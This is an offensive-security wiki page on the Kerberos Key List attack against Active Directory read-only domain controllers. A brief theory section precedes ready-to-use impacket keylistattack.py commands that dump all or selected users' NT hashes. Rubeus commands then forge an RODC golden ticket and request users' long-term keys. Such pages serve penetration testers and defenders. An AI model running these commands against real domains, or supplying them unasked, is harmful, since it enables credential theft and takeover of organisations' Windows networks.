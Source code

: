 # Kerberos key list

## Theory

It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the `KRBTGT` service with a [`KERB-KEY-LIST-REQ`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/732211ae-4891-40d3-b2b6-85ebd6f5ffff) message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.\
An attacker can abuse this by forging a [RODC golden ticket](broken-reference) for a target user and use it to send a `TGS-REQ` to the `KRBTGT` service with a `padata` filed value of [161](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7) (`KERB-KEY-LIST-REQ`). Knowing the `KRBTGT` key of the RODC is required here. The `TGS-REP` will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.

## Practice

{% tabs %}
{% tab title="Unix-Like" %}
From UNIX-like systems, the [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.

```bash
#Attempt to dump all the users' hashes even the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump all the users' hashes but filter the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump a specific user's hash
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose.&#x20;

```powershell
# 1. Forge a RODC Golden ticket
Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

# 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/" %}

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/kerberos-key-list" %}

